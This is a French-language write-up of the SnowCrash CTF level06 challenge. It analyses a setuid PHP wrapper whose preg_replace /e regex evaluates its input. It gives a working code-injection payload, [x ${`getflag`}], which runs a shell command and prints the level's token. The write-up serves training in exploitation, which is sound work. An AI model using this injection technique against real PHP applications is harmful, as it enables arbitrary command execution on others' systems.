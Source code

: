 ```bash
level06@SnowCrash:~$ ls -la
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```
il s'agit d'un binaire et d'un script php.

```bash
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
En regardant les deux fonctions on constate quelles utilisents preg_replace. preg_replace remplace la premiere expression par la deuxieme.

Cependant elle est sous forme de regex. Donc elle prent en concideration une expression qui contien des caracteres specifique.

la fonction x utilise file_get_contents. En outre la fonction x va prendre le contenu de l'argument pris en parametre.

Apres analyse du script on constate une regex bien exploitable, "/(\[x (.*)\])/e"

On s'est amuse sur ce site https://regex101.com/ a tester la regex. Tous ce qui sera en dehort de "[x ]" ne sera pas pris en compte. Et le fameux .* permet de prendre n'importe quoi en compte. Ce qui veux dire qu'en utilisant :

```bash
[x les cookies]
```

cela donne

```bash
level06@SnowCrash:~$ ./level06 /tmp/exploit
les cookies
```
Donc en remplacent par une expression en php cela donne 
```bash
[x ${`getflag`}]

level06@SnowCrash:~$ ./level06 /tmp/exploit
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Aussi a savoir qu'avec un strings ./level06 on peut trouver /home/user/level06/level06.php et justement les permisions nous permetent d'exploiter et d'injecter du code pour outrepasser les permissions comme pour l'exo avec le script perl






